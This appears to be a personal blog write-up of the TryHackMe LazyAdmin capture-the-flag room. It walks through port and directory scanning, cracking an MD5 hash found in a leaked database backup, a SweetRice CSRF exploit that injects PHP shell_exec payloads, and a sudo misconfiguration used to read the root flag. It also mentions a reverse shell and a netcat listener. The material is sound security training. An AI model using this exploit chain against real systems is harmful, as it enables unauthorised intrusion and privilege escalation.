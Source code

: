 I recently re-sparked my interest for InfoSec and started dabbling with a couple of hacking platforms and war games and stumbled over [TryhackMe](https://www.tryhackme.com), which so far has been an absolutely fantastic learning resource for information security.

This post marks my first CTF write up, so if you stumble over this, keep this in mind and if you have suggestions for improving the flow of the post, or the general content, feel free to send me en email about that!

With all of that out of the way, let's jump into the [LazyAdmin](https://tryhackme.com/room/lazyadmin) CTF on TryHackMe.

## Lazy Admin

To start off, we'll use `nmap` to find out which ports are running:

```bash
nmap  -vv -sV -sC 10.10.60.2 -A -T4
```

We get the ports 22 and 80. Next, let's try to navigate to the website on port 80. There we see the basic Apache welcome page.

To see what else is running on this web server, let's use `gobuster` to find other files and directories

```bash
gobuster -u http://10.10.60.2/ -w /opt/SecLists/Discovery/Web-Content/big.txt -x "php,txt,html"
```

This uses the [SecLists](https://github.com/danielmiessler/SecLists) repo's `Web-Content/big.txt` wordlist and we'll initially try for .php, .txt and .html files.

The first run gives us the `/content` folder and if we navigate there in our browser, we see an in-progress SweetRice CMS page.

At this point, it makes sense to go to [Exploit DB](https://www.exploit-db.com/) and search for SweetRice. There are several interesting CVE's, but we don't know the version yet.

Let's run `gobuster` again, to find resources inside of `content`:

```bash
gobuster -u http://10.10.60.2/content/ -w /opt/SecLists/Discovery/Web-Content/big.txt -x "php,txt,html"
```

This gives us several things, such as the `/as` folder and the `/inc` folder. Under `/as` we find an administrator login, which is what we were looking for. Inside the `/inc` folder, interestingly, we find MySQL backup, which we immediately download.

Also, there are license.txt and changelog files and folders, which provide us with some info about the version - we're dealing with 1.5.0, so we can use the latest exploits on Exploit-DB!

Opening the downloaded MySQL backup, we stumble upon the password and the user name. The password is `42f749ade7f9e195bf475f37a44cafcb` and the user name is `manager`.

We can use `john the ripper` to crack the password, which looks like MD5:

```bash
john pw.txt --wordlist=/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt --format=RAW-MD5
```

We use the `rockyou` password list and immediately get `Password123` as a password.

With that, we can login to the Admin page! Nice.

Next, let's check out the exploits at Exploit DB. There, we find [this](https://www.exploit-db.com/exploits/40700) exploit, which enables us to do PHP code execution via a CSRF bug.

This sounds promising, as with remote code execution, we should be able to read out the user and root flag from the server, or simply open a reverse shell, letting us basically connect to the server via ssh.

If we look at the exploit on Exploit-DB, it looks like the following:

```php
<html>
    <body onload="document.exploit.submit();">
        <form action="http://10.10.60.2/content/as/?type=ad&mode=save" method="POST" name="exploit">
            <input type="hidden" name="adk" value="hacked"/>
            <textarea type="hidden" name="adv">
                ... add php code here ...
            </textarea>;
        </form>
    </body>
</html>
```

We create a new .html file and paste this code in. However, instead of the `Hacked` message, we can use the `shell_exec` method to execute shell commands on the server, so we replace it with:

```php
$output = shell_exec('ls /home');
echo "<pre>$output</pre>";
```

This directs us to the Ads page in the SweetRice backend, with a new ad active. If we now access this using `http://10.10.60.2/content/inc/ads/hacked.php` in this case, then we see the executed PHP code, which shows us the contents of `/home`.

This way, we can see that the username is `itguy`. Next we can `ls /home/itguy` to see the files inside of the user's folder. There, we can already get the user flag using `cat /home/itguy/user.txt`. The flag is `THM{63e5bce9271952aad1113b6f1ac28a07}`.

With this exploit, we could also execute a [reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), which together with a locally opened netcat session (`nc -lvnp 4444`) enables us to gain access to the server.

In this case, we'll just continue to execute commands using the exploit though. The next thing we need to do is to privilege-escalate. We execute `sudo -l` and see, that the `www-data` user, which is the user running the web app, can execute the `backup.pl` file.

Next, we can look at the file using `cat /home/itguy/backup.pl` and we see that it simply calls `/etc/copy.sh`, which is a file we have access to. Now we have a way to get to the root flag - we overwrite the `/etc/copy.sh` file with a script for reading out the `/root/root.txt` file and we can do all of that in our CSRF exploit:

```php
echo "<pre>$output</pre>";
$output1 = shell_exec('echo "cat /root/root.txt > /etc/copy.sh"');
echo "<pre>$output1</pre>";
$output2 = shell_exec('sudo /usr/bin/perl /home/itguy/backup.pl');
echo "<pre>$output2</pre>";
```

When we execute the exploit again, we get the root flag `THM{6637f41d0177b6f37cb20d775124699f}`.

All Done!

## Conclusion

What a nice entry-level CTF and one of the first unguided ones I was able to, after going through almost all entry-level THM rooms mentioned [here](https://blog.tryhackme.com/free_path/) before, finish without looking at any writeups, or any external help myself!

#### Resources

* [TryHackMe LazyAdmin](https://tryhackme.com/room/lazyadmin)
